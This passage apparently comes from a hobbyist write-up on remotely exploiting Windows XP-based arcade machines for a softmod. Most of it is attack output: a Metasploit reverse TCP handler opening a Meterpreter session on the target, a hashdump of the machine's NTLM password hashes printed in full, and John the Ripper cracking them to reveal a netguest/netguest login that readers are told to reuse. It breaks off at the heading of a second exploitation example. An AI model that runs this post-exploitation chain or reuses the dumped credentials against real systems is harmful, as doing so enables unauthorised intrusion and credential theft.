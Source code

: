 Back on the msfconfole you will see:
```
[*] Started reverse TCP handler on 192.168.69.64:4443 
[*] Sending stage (179779 bytes) to 192.168.69.112
[*] Meterpreter session 1 opened (192.168.69.64:4443 -> 192.168.69.112:1034) at 2019-08-02 01:35:47 -0400


meterpreter > sysinfo
Computer        : OEM-JKAI6ZX8VT3
OS              : Windows XP (Build 2600, Service Pack 2).
Architecture    : x86
System Language : ja_JP
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
From here you can dump the hashes required for the second stage. 
meterpreter > run post/windows/gather/hashdump
```
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 884bb6156c03009f8b8abb02d64adeee...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
netguest:1000:c05a21cfc28a6e52417eaf50cfac29c3:a190d832152c3d35ee787d26ed371acb:::
```
Cracking the hashes is trivial. 
```
$ john pass --format=NT
Loaded 3 password hashes with no different salts (NT [MD4 128/128 X2 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
netguest         (netguest)
                 (Administrator)
                 (Guest)
3g 0:00:00:00 DONE 2/3 (2019-08-01 16:54) 300.0g/s 180900p/s 180900c/s 365000C/s 123456..maggie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We can now use the netguest / netguest user and password in the second stage softmod process. *YOU* the reader don't even have to go through stage one, 
simply use the password shared above, and move on to stage two. 

## Remote Exploitation Example 2:
- Taito X3 (Left4Dead ver ??, torn sticker shows it was [factory?] updated from Gunslinger Stratos ver ??)
